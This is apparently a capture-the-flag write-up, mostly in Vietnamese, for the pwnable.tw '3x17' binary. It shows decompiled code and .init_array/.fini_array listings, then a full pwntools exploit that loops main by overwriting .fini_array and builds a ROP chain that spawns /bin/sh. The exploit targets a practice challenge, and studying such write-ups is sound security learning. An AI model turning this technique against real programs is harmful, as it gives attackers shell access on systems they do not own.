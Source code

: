# 3x17

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwnable_tw/3x17$ checksec 3x17
[*] '/mnt/d/pwn_myself/pwnable_tw/3x17/3x17'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwnable_tw/3x17$ ./3x17
addr:0x100
data:0x789

```

### start

```c
// positive sp value has been detected, the output may be wrong!
void __fastcall __noreturn start(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 v3; // rax
  unsigned int v4; // esi
  __int64 v5; // [rsp-8h] [rbp-8h] BYREF
  void *retaddr; // [rsp+0h] [rbp+0h] BYREF

  v4 = v5;
  v5 = v3;
  sub_401EB0(sub_401B6D, v4, &retaddr, sub_4028D0, sub_402960, a3, &v5);
  __halt();
}

```

### sub_401B6D

```c
__int64 sub_401B6D()
{
  __int64 result; // rax
  char *v1; // [rsp+8h] [rbp-28h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  result = ++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    sub_446EC0(1u, "addr:", 5uLL);
    sub_446E20(0, buf, 0x18uLL);
    v1 = sub_40EE70(buf);
    sub_446EC0(1u, "data:", 5uLL);
    sub_446E20(0, v1, 0x18uLL);
    result = 0LL;
  }
  if ( __readfsqword(0x28u) != v3 )
    sub_44A3E0();
  return result;
}

```

### sub_4028D0

```c
__int64 __fastcall sub_4028D0(unsigned int a1, __int64 a2, __int64 a3)
{
  __int64 result; // rax
  signed __int64 v5; // r14
  __int64 i; // rbx

  result = init_proc();
  v5 = off_4B40F0 - funcs_402908;
  if ( v5 )
  {
    for ( i = 0LL; i != v5; ++i )
      result = (funcs_402908[i])(a1, a2, a3);
  }
  return result;
}

```

### sub_402960

```c
__int64 sub_402960()
{
  signed __int64 v0; // rbx

  if ( (&unk_4B4100 - off_4B40F0) >> 3 )
  {
    v0 = ((&unk_4B4100 - off_4B40F0) >> 3) - 1;
    do
      off_4B40F0[v0--]();
    while ( v0 != -1 );
  }
  return term_proc();
}

```

```shell
.init_array:00000000004B40E0 ; ===========================================================================
.init_array:00000000004B40E0
.init_array:00000000004B40E0 ; Segment type: Pure data
.init_array:00000000004B40E0 ; Segment permissions: Read/Write
.init_array:00000000004B40E0 _init_array     segment qword public 'DATA' use64
.init_array:00000000004B40E0                 assume cs:_init_array
.init_array:00000000004B40E0                 ;org 4B40E0h
.init_array:00000000004B40E0 funcs_402908    dq offset sub_401B40    ; DATA XREF: sub_4028D0+2↑o
.init_array:00000000004B40E0                                         ; sub_4028D0+B↑o ...
.init_array:00000000004B40E8                 dq offset sub_4015B0
.init_array:00000000004B40E8 _init_array     ends
.init_array:00000000004B40E8
.fini_array:00000000004B40F0 ; ===========================================================================
.fini_array:00000000004B40F0
.fini_array:00000000004B40F0 ; Segment type: Pure data
.fini_array:00000000004B40F0 ; Segment permissions: Read/Write
.fini_array:00000000004B40F0 _fini_array     segment qword public 'DATA' use64
.fini_array:00000000004B40F0                 assume cs:_fini_array
.fini_array:00000000004B40F0                 ;org 4B40F0h
.fini_array:00000000004B40F0 off_4B40F0      dq offset sub_401B00    ; DATA XREF: sub_4028D0+4C↑o
.fini_array:00000000004B40F0                                         ; sub_402960+8↑o
.fini_array:00000000004B40F8                 dq offset sub_401580
.fini_array:00000000004B40F8 _fini_array     ends
.fini_array:00000000004B40F8

```

Như có thể thấy thì hàm **sub_4028D0** call tới **.init_array**, và **sub_402960** call tới **.fini_array**.

Chúng ta cần chú ý đến 2 phân vùng : .init_array và .fini_array: [For more but mình đọc k hiểu](http://blog.k3170makan.com/2018/10/introduction-to-elf-format-part-v.html)

* init_array: cung cấp các hàm contructor cho chương trình trước khi hàm main() được thực hiện
* fini_array: cung cấp các hàm destructor cần thiết sau khi kết thúc hàm main(), trước khi kết thúc chương trình
* fini_array bao gồm 2 entry:
* foo_destructor : chính là hàm gọi destructor
* do_global_dtors_aux : hàm nãy sẽ chạy tất cả các global destructor(trên hệ thống) để thoát khỏi chương trình, trong trường hợp phân vùng .fini_array không được định nghĩa.
* Hai hàm này được gọi theo thứ tự: gọi foo_destructor trước, sau đó đến do_global_dtors_aux

Đại khái là binary này cho phép ta ghi lên 1 địa chỉ tùy ý, tuy nhiên nó chỉ có cho ghi có 1 lần, lại không thể sử dụng shellcode *nx enable*

Do đó ta cần tự lực cánh sinh tạo ra vòng lặp giúp ta có thể ghi được nhiếu tí. Cụ thể thì **.init_array** thực thi xong tới **main** xong gọi tới **.fini_array** do đó thì ta có thể over write sao cho lúc gọi tới đây thì nó nhảy vô hàm main, nhảy vô main xong phải tiếp tục gọi tới **.fini_array**. Mà để gọi được tới **.fini_array** ta sẽ call **sub_402960**. mà thêm nữa t k thể thực thi shellcode => dùng rop trong chall này.

Vài thứ hữu ích:

```python
_fini_array_addr = 0x4b40f0
_fini_array_caller = 0x402960
_main_addr = 0x401b6d

0x00000000004022b4 : syscall       # execve
0x0000000000401696 : pop rdi ; ret # address 0f /bin/sh
0x0000000000446e35 : pop rdx ; ret # 0
0x0000000000406c30 : pop rsi ; ret # 0
0x000000000041e4af : pop rax ; ret # 0x3b

0x0000000000401c4b : leave ; ret   # thoát khỏi vòng lặp do đã ghi đủ các thứ cần thiết và ret ngay vô các gadgets

```

### Exploit

```python
from pwn import *

r = process("./3x17")

def write(addr, data):
    r.recvuntil(b'addr:')
    r.sendline(str(addr))
    r.recvuntil(b'data:')
    r.send(data)

fini_array_addr = 0x4b40f0
fini_array_caller = 0x402960
main_addr = 0x401b6d
leave_ret = 0x401c4b
syscall = 0x4022b4
pop_rdi = 0x401696
pop_rsi = 0x406c30
pop_rax = 0x41e4af
pop_rdx = 0x446e35
bin_sh = fini_array_addr + 88

write(fini_array_addr + 00, p64(fini_array_caller) + p64(main_addr))
write(fini_array_addr + 16, p64(pop_rax)           + p64(0x3b))
write(fini_array_addr + 32, p64(pop_rdx)           + p64(0))
write(fini_array_addr + 48, p64(pop_rsi)           + p64(0))
write(fini_array_addr + 64, p64(pop_rdi)           + p64(bin_sh))
write(fini_array_addr + 80, p64(syscall)           + b'/bin/sh\x00')

write(fini_array_addr, p64(leave_ret)) # ghi vào fini để lần sau quay về đây thì nhảy vô gadget của mình luôn
r.interactive()

```